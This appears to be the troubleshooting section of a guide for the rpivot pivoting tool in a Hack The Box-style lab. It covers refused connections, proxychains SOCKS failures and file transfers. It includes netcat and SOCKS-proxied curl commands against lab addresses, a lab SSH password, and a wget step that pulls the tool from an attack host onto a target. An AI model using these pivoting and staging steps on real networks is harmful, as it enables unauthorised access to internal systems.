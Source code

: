 #### **Server Connection Refused**
```bash
# Problem: Client cannot connect to server
Connection refused to 10.10.14.18:9999

# Solutions:
1. Verify server is running
   ps aux | grep server.py

2. Check firewall rules
   sudo ufw status
   sudo ufw allow 9999

3. Test connectivity
   nc -v 10.10.14.18 9999
```

#### **SOCKS Proxy Not Working**
```bash
# Problem: Proxychains cannot connect
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  FAILED

# Solutions:
1. Verify server SOCKS port
   netstat -tlnp | grep :9050

2. Check proxychains config
   cat /etc/proxychains.conf | grep -A 5 ProxyList

3. Test SOCKS proxy
   curl --socks4 127.0.0.1:9050 http://172.16.5.135
```

#### **File Transfer Issues**
```bash
# Problem: SCP transfer fails
Permission denied (publickey,password)

# Solutions:
1. Test SSH connection first
   ssh ubuntu@target_ip

2. Use correct credentials
   ssh ubuntu@target_ip
   # Password: HTB_@cademy_stdnt!

3. Alternative transfer methods
   # HTTP server on attack host
   python3 -m http.server 8000
   # Download on target
   wget http://attack_ip:8000/rpivot.tar.gz
```

---